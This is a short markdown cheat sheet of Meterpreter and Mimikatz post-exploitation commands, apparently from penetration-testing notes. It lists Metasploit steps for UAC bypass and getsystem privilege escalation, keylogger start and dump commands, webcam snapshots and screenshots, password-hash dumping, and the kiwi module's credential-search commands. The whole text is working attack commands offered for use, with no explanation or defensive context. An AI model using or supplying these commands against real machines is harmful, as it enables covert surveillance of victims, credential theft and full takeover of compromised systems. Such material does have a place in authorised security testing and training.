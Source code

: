 - You can background Meterpreter and use additional metasploit exploits

```
background
use exploit/windows/local/bypassuac
set Session <Session ID of meterpreter>
exploit
```

- Some modules will need other settings like a payload etc

  - take a screenshot

```
screenshot
```

- Initiate a keylogger

```
keyscan_start
keyscan_dump
keyscan_stop
```

- To attempt to gain SYSTEM level privileges

```
use priv
getsystem
```

- display webcams and take a picture

```
webcam_list
webcam_snap
```

- Dump password hashes 

```
run post/windows/gather/hashdump
```

### Mimikatz

- Load Mimikatz

```
load kiwi
```

- List available modules

```
mimikatz_command -f fu::
```

- sekurlsa

```
mimikatz_command -f sekurlsa::searchPasswords
```
